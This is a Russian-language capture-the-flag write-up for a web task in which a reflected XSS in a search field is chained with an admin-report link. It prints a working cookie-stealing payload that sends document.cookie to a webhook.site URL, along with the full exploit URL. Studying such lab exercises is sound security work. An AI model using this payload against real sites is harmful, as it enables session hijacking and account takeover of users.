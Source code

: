 # Клиент всегда прав: Write-up #
Нас встречает сайт с тремя ссылками на различные посты. Заметим, что иконки возле ссылок тоже кликабельные.

![](writeup/report.png)

И вот, какой url они выдают:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask
Уже наводит на определённые крысиные мысли...

Теперь попробуем поковырять поисковую строку, не просто так же она здесь. Пробуем простейший xss:

    <script>alert(1)</script>
    
Есть контакт!

![](writeup/xss.png)

Раз уж есть xss и наивный админ, который смотрит наши репорты, можно попробовать украсть его куки. Вставим в параметр `report` ссылку с параметром `search`, в который запихнём xss.
Для принятия куки лучше использовать [webhook.site](https://webhook.site). Он генерирует ссылку, которую будем использовать в пэйлоаде. Итоговый xss:

    <script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Кидаем это в параметр `search` а затем получившейся ссылкой заменяем параметр `report`:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location="https://webhook.site/033ff524-96a4-4482-ba69-92b7a21b289b/?c="%252bencodeURIComponent(document.cookie)</script>

Идём смотреть куки на вебхуке и видим флаг:

`flag=CODEBY{***********}`

